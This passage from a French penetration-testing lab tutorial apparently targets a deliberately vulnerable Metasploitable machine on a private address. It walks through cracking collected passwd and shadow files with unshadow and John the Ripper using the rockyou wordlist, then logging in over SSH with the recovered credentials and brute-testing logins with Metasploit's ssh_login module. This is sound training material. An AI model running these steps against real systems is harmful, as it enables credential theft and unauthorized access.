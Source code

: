 
### 4.5) Phase 4 — Cracker les mots de passe (John The Ripper)

1. Recupération & préparation :
- Ton `passwd.txt` et `shadow.txt` collectés : combine avec `unshadow` (fourni par John) :

```bash
sudo apt install -y john
sudo unshadow passwd.txt shadow.txt > unshadow.txt

```

1. Lancer John :

```bash
sudo john unshadow.txt
# suivre la progression
sudo john --show unshadow.txt    # affiche les mots de passe découverts

```

**Conseils**

- John utilise des règles / wordlists ; pour s’améliorer : `-wordlist=/usr/share/wordlists/rockyou.txt --rules`
- Les mots de passe faibles se cassent rapidement ; s’il y a du sel ou SHA512, ça peut durer.

---

### 4.6) Phase 5 — Connexion SSH avec identifiants récupérés

1. Si John retourne `msfadmin:password`, teste une connexion SSH :

```bash
ssh msfadmin@192.168.56.102
# ou si port non-standard :
ssh -p <PORT> msfadmin@192.168.56.102

```

1. Si la connexion SSH échoue, Metasploit fournit `auxiliary/scanner/ssh/ssh_login` pour tester un couple user/password à grande échelle :

```bash
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.56.102
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME msfadmin
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD msfadmin
msf6 auxiliary(scanner/ssh/ssh_login) > run

```

S’il y a succès, Metasploit peut ouvrir une session. Note que ces sessions peuvent être moins interactives (pas de gestion complète du TTY) ; pour une interactive shell, utilise `sessions -i <id>` et `shell` si possible.

---